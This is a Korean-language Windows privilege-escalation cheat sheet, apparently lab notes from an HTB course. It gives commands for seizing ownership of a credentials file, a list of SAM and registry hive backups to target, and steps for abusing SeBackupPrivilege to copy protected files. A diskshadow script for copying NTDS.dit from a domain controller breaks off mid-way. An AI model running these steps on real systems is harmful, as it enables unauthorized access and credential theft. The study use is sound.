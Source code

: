 ```
```takeown /f 'C:\Department Shares\Private\IT\cred.txt'```

### 소유권 변경 확인
```Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}```

### 파일 ACL 수정
```cat 'C:\Department Shares\Private\IT\cred.txt'```<br/>
```icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F```

### 파일 읽기
```cat 'C:\Department Shares\Private\IT\cred.txt'```

## 언제 사용하나

### 관심 있는 파일
```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
> `.kdbx` KeepPass 데이터베이스 파일, OneNote 노트북, `passwords.*`, `pass.*`, `creds.*`, scripts, 기타 구성 파일, 가상 하드 드라이브 파일 등 민감 정보가 있는 파일

<br/><br/>
# Windows Built-in Groups

## Backup Operators
- [PoC](https://github.com/giuliano108/SeBackupPrivilege)

### 라이브러리 가져오기
```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

### SeBackupPrivilege가 활성화되어 있는지 확인
```whoami /priv```<br/>
```Get-SeBackupPrivilege```

### SeBackupPrivilege 활성화
```
Set-SeBackupPrivilege
Get-SeBackupPrivilege
whoami /priv
```

### 보호된 파일 복사
```
dir C:\Confidential\
cat 'C:\Confidential\2021 Contract.txt'
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

### 도메인 컨트롤러 공격 - NTDS.dit 복사
```
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
